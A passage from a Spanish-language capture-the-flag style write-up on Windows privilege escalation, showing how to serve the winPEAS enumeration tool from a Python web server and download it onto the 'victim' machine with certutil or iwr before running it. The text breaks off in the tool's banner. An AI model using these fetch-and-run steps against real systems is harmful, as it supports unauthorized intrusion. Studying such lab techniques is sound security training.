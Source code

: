 <h2 id="exploit2">Utilizando winPEAS para Encontrar Vulnerabilidades</h2>

Vamos a cargar la super herramienta **winPEAS**, para que nos muestre si hay alguna manera de escalar privilegios. 

Primero, ve al siguiente link y descarga la **versión 64x**:
* <a href="https://github.com/carlospolop/PEASS-ng/releases/tag/20240324-2c3cd766" target="_blank">Repositorio de carlospolop: PEAS-ng - releases</a>

Una vez que lo tengas descargado, abre un servidor web con **Python** y descargalo en la máquina víctima, ya sea, usando **certutil o iwk**:

* Abriendo el servidor en **Python**:
```bash
python -m http.server 80
```

* Descargando **winPEAS** con **certutil**:
```batch
certutil -urlcache -f http://Tu_IP/winPEASx64.exe winPeas.exe
```

* Descargando **winPEAS** con **iwr**:
```batch
iwr http://Tu_IP:80/winPEASx64.exe -OutFile winPeas.exe
```

Comprobamos que se haya descargado:
```batch
PS C:\Users\Public\Desktop> dir


    Directory: C:\Users\Public\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/20/2020   2:14 AM           1191 TeamViewer 7.lnk                                                      
-ar---        x/xx/xxxx   2:11 PM             34 user.txt                                                              
-a----        x/xx/xxxx  10:25 PM        2387456 winPeas.exe                                                           
```

Y lo ejecutamos:
```batch
winPeas.exe
winPeas.exe
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
               ((((((((((((((((((((((((((((((((                                                                                                                                                                                            
        (((((((((((((((((((((((((((((((((((((((((((                                                                                                                                                                                        
      ((((((((((((((**********/##########(((((((((((((                                                                                                                                                                                     
```